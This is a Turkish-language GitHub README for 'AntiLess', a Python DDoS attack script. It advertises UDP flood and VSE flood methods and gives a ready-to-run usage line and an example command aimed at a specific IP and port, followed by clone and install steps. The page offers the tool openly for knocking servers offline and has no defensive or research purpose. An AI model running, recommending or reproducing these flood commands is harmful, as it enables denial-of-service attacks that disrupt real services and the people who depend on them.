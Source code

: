 
<em><h5 align="center">AntiLess - DDoS Saldırı Scripti > 2 Method</h5></em>
<em><h5 align="center">(Programlanma dili - Python 3)</h5></em>


<em><h5 align="center">(If it worked for you, don't forget to Fork and Star)</h5></em>
<em><h5 align="center">(Eğer işine yaradıysa Fork ve Star atmayı unutma)</h5></em>


## Özellikler ve methodlar

* Layer4: 
  * UDP | UDP Flood Bypass
  * VSE | Protokol gönderimi (DDraceNetwork ✅)

* ⚙️ Tools - Nasıl kullanılır
`
python3 anti.py tools
`
  * ☢️  PING | Serverların pinlglerini ölçer.
  * ✔️ CHECK | Sitelerin durumunu checkler.

**Nasıl kullanılır?**

```shell
python3 anti.py <method> <ip:port> <threads> <duration> <config.json (Güçlendirme)>
```

```shell
ÖRNEK ÇIKTI: python3 anti.py VSE 62.106.84.67:8332 2 1000 config.json 100 600
```
```shell
not: ip - port - method ve diğer değişkenleri kendinize göre değiştirin.
```

**Gerekliler**

* [dnspython](https://github.com/rthalley/dnspython)
* [cfscrape](https://github.com/Anorov/cloudflare-scrape)
* [impacket](https://github.com/SecureAuthCorp/impacket)
* [requests](https://github.com/psf/requests)
* [Python3][python3]
* [Antiless](https://github.com/antilagg/Antiless)
* [icmplib](https://github.com/ValentinBELYN/icmplib)
* [certifi](https://github.com/certifi/python-certifi)
* [psutil](https://github.com/giampaolo/psutil)
* [yarl](https://github.com/aio-libs/yarl)
---

```shell
git clone https://github.com/antilagg/Antiless-DDoS.git
cd Antiless-DDoS
pip install -r moduller.txt
```

[python3]: https://python.org 'Python3'

---
